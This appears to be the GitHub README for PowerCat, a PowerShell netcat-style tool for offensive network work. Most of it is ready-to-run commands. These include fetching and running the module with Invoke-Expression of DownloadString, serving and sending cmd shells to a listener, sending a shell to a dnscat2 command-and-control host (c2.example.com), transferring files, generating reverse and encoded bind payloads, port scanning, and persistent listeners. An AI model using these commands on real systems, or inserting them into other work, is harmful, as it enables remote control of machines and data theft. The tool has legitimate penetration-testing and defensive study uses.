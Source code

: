 PowerCat
========
A PowerShell TCP/IP swiss army knife. #requires -Version 2

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
    Import the functions from downloaded .psm1 File:
        Import-Module PowerCat.psm1
    Load the functions individually from URL:
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
        Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')

### Parameters:
    
    Invoke-PowerCat
    
    -Listener       Listen for a connection.                            [Switch]
    -Client         IPv4 address of a listener to connect to.           [String]
    -Port           The port to connect to, or listen on.               [Int]
    -Execute        Execute a process.                                  [String]
    -PowerShell     Execute Powershell.                                 [Switch]
    -Relay          Format: "-r tcp:10.1.1.1:443"                       [String]
    -Udp            Transfer data over UDP.                             [Switch]
    -Timeout        Timeout option. Default: 60                         [Int]
    -Input          Filepath (string), byte array, or string.           [Object]
    -OutputType     Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     Output File Path.                                   [String]
    -Disconnect     Disconnect after connecting.                        [Switch]
    -Repeat         Restart after disconnecting.                        [Switch]
    -Payload        Generate payload.                                   [Switch]
    -Encoded        Generate Base64 encoded payload.                    [Switch]
    
    Invoke-DnsCat
    
    -Server         Name of DnsCat2 server to connect to.               [String]
    -Threshold      DNS Failure Threshold.                              [Int]

Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
    Basic Listener:
        Invoke-PowerCat -Listener -Port 443
        
    Basic Client:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443
        
    Basic Client, Output as Bytes:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes

File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
    Send File:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    Recieve File:
        Invoke-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile

Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
    Serve a cmd Shell:
        Invoke-PowerCat -Listener -Port 443 -Execute cmd
        
    Send a cmd Shell:
        Invoke-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    Serve a shell which executes powershell commands:
        Invoke-PowerCat -Listener -Port 443 -PowerShell

DNS and UDP
-----------
PowerCat supports more than sending data over TCP. Specify the -Udp paratmeter to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) via Invoke-DnsCat.
###
    Send Data Over UDP:
        Invoke-PowerCat -Listener -Port 8000 -Udp
        
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        Invoke-DnsCat -Client 10.1.1.1 -Port 53 -Server c2.example.com
        
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        Invoke-DnsCat -Server c2.example.com -Execute cmd

Relays
------
Relays in PowerCat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to UDP Client Relay:
        Invoke-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    TCP Listener to DNS Client Relay
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:10.1.1.1:53:c2.example.com
        
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        Invoke-DnsCat -Listener -Port 8000 -Relay dns:::c2.example.com
        
    TCP Client to Client Relay
        Invoke-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    TCP Listener to Listener Relay
        Invoke-PowerCat -Listener -Port 8000 -Relay tcp:9000

Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        Invoke-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    Generate a bind tcp encoded command which listens on port 8000:
        Invoke-PowerCat -Listener -Port 8000 -Execute cmd -Encoded

Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
    Basic TCP port scan:
        1..1024 | ForEach-Object { Invoke-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
        
    Persistent listener:
        Invoke-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
